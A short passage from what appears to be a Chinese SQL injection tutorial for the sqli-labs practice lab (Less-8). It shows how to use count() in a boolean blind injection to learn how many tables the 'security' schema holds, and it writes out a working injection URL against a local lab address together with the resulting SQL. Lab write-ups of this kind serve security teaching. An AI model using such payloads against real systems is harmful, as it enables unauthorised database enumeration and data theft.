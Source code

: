 * `count()`

  统计数据表中包含的记录行的总数，或者根据查询结果返回列中包含的数据行。

由于无法看到有多少个表，为了避免无效查询，所以可以先获取表的数量，可以使用count()函数进行获取。

方法同获取数据库名长度，直接进行爆破，例子如下

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20(select%20count(table_name)%20from%20Information_schema.tables%20where%20table_schema%20=%20%27security%27)=4%23
SQL:
SELECT * FROM users WHERE id='1' and (select count(table_name) from Information_schema.tables where table_schema = 'security')=4#' LIMIT 0,1;
;
```

![](image/15.jpg)

